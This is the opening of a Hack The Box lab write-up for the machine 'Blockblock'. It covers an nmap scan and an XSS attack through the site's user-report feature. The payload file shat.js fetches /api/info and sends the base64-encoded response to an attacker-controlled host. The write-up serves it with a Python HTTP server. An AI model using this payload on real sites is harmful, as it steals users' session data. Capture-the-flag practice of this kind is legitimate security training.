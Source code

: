 # Blockblock Writeup - Hack The Box

## Introduction

Blockblock is a challenging Hack The Box machine that tests skills in reconnaissance, web exploitation, privilege escalation, and blockchain-related vulnerabilities. This writeup outlines the steps taken to enumerate, exploit, and ultimately root the machine.

---

## Initial Reconnaissance

### Nmap Scan

The initial port scan reveals three open ports:

```bash
nmap -p- -sV -Pn 10.10.11.43 -v -sT --min-rate 5000
```

Output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7 (protocol 2.0)
80/tcp   open  http    Werkzeug/3.0.3 Python/3.12.3
8545/tcp open  unknown
```

---

## Web Enumeration

### Registration and Exploitation

Upon accessing the web service on port 80, we register a user account and notice the option to report other users. This functionality appears vulnerable to XSS.

We create the following payload in a file named `shat.js`:

```javascript
fetch('/api/info')
  .then(response => response.text())
  .then(text => {
    fetch('http://10.10.14.8:2000/log?' + new URLSearchParams({ log: btoa(text) }), {
      mode: 'cors' // Allow cross-origin request
    });
  });
```

Next, we host the file on a Python HTTP server:

```bash
python3 -m http.server 2000
```
